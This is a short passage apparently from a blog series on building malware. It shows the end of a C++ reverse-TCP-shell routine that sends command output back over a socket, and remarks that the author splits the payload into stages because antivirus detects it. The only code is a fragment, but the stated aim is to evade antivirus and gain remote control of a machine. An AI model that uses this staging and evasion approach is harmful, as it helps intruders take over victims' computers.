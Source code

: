 ```cpp

		send(sock, reinterpret_cast<char*>(&msg_len), sizeof(int), 4);

		send(sock, cmd_res.c_str(), cmd_res.size(), 0);
			
	}
}
```

Here's a video of it working! NOTE: I still have to disable my Windows Defender to run this payload, which is exactly why we need to split it up into stages, any antivirus can identify this as a simple Reverse TCP Shell.



In the next post I'll begin developing Stage 2 of the malware.
